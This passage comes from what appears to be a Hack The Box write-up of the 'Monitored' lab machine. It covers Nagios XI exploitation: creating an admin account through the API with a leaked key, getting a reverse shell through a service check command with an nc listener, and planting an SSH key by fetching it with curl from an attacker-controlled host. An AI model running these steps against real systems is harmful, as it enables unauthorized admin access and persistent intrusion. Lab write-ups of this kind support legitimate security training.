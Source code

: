It's not neat at all, but we do have all of the users. We can try cracking the hash of the nagiosadmin user, but it doesn't work. Interestingly (I use this word way too much), he does have an API key! This means we can probably use that key to access the API again.

I did some research on what can be done with this API key, and it turns out we can create our own admin user. We can send a request to /nagiosxi/api/v1/system/user with the user we want to create. Here is the command I used:

```
$ curl -X POST --insecure 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -d "username=gnos1s&password=test&name=test&email=test@test.com@auth_level=admin"
{"success":"User account gnos1s was added successfully!","user_id":14}
```

It shows that our account was created. We can now log in as that user:

![admin](admin.png)

For some reason Nagios prompts me to change my password, but we can see that we have admin perms from the buttons on the top. Now, we just have to get a shell.

First, we create a command in the Core Config Manager (we can select from Configure menu on the top):

![new_cmd](new_cmd.png)

Next, we go to Monitoring -> Services on the left and create a new service: We can select our command and click "Run check command". This is enough to get us a shell:

![services_1](services_1.png) ![services_2](services_2.png)
```
$ nc -lvvvnp 9002
Listening on any address 9002 (dynamid)
Connection from 10.10.11.248:57768
bash: cannot set terminal process group (66832): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$
```

We can now read the user flag:

```
nagios@monitored:~$ ls
ls
cookie.txt
user.txt
nagios@monitored:~$ cat user.txt
cat user.txt
********************************
```

Let's put our key into the authorized_keys file so we can login with SSH:

```
nagios@monitored:~/.ssh$ curl http://10.10.16.2:8000/id_rsa.pub >> authorized_keys
<ttp://10.10.16.2:8000/id_rsa.pub >> authorized_keys
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   579  100   579    0     0   2718      0 --:--:-- --:--:-- --:--:--  2731
```
```
ssh -i id_rsa nagios@10.10.11.248

<snip>

Last login: Mon Jan 15 04:36:21 2024 from 10.10.16.4
nagios@monitored:~$
```